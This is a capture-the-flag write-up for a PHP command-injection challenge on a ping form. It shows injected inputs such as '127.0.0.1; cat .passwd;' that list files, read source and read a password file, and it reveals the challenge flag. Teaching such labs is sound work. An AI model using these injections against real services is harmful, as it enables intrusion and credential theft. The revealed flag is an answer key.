





# PHP - Command injection

**Point**: 10 Points

**Title**: Ping service v1

**Description**: 

Find a vulnerabilty in this service and exploit it.

The flag is on the index.php file.

## Solution:

A website with box containing "IP address" or "host" for `ping` command.

<p align="center"> </p>

Now with "Command injection" in the title, we know that our input will inject directly to the command. So we try to execute our command by use `;` to run multi commands in one line. List all "files" and "folders" in current directory. Submit with:

```shell
127.0.0.1; ls -al;
```

<p align="center"> </p>

Now, we see `index.php` file. Let's read it as suggested:

```shell
127.0.0.1; cat index.php;
```

<p align="center"> </p>

Well, the **PHP** code should not be rendered in client side. We should "View source" (Ctrl + U) to see:

<p align="center"> </p>

The **flag** is stored in `.passwd` file. Now "cat" it:

```shell
127.0.0.1; cat .passwd;
```
<p align="center"> </p>

Chill & relax (●'◡'●)

Flag: **S3rv1ceP1n9Sup3rS3cure**